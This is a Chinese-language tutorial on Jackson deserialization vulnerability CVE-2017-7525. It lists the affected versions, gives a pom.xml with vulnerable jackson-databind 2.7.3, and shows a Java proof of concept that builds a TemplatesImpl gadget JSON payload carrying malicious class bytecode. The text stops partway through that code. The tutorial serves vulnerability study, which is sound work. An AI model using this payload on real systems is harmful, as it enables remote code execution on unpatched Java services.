 ```java
```

## CVE-2017-7525 TemplatesImpl链

和fastjson不同的是，fastjson是直接指定传入的类，而jackson，是指定Object字段为恶意类

### 影响版本

Jackson 2.6系列 < 2.6.7.1

Jackson 2.7系列 < 2.7.9.1

Jackson 2.8系列 < 2.8.8.1

jdk<=7u21||8u20

pom.xml：

```xml
        <dependency>
            <groupId>com.fasterxml.jackson.core</groupId>
            <artifactId>jackson-databind</artifactId>
            <version>2.7.3</version>
        </dependency>
        <dependency>
            <groupId>com.fasterxml.jackson.core</groupId>
            <artifactId>jackson-core</artifactId>
            <version>2.7.3</version>
        </dependency>
        <dependency>
            <groupId>com.fasterxml.jackson.core</groupId>
            <artifactId>jackson-annotations</artifactId>
            <version>2.7.3</version>
```

### enableDefaultTyping POC

在调试分析jackson反序列化过程时，提到反序列化时，会根据字符串自动调用构造函数和setter赋值。https://godownio.github.io/2024/10/11/jackson-fan-xu-lie-hua-liu-cheng-fen-xi-wu-poc

那什么时候会调用getter呢？我们用下面的POC做下实验

Test类：

```java
public class Test {
    public Object object;
}
```

POC：

```java
public class jackson_TemplatesImpl {
    public static void main(String[] args) throws IOException {
        String exp = readClassStr("E:\\CODE_COLLECT\\Idea_java_ProTest\\my-yso\\target\\classes\\TemplatesImpl_RuntimeEvil.class");
        String jsonInput = aposToQuotes("{\"object\":['com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl',\n" +
                "{\n" +
                "'transletBytecodes':['"+exp+"'],\n" +
                "'transletName':'test',\n" +
                "'outputProperties':{}\n" +
                "}\n" +
                "]\n" +
                "}");
        System.out.printf(jsonInput);
        ObjectMapper mapper = new ObjectMapper();
        mapper.enableDefaultTyping();
```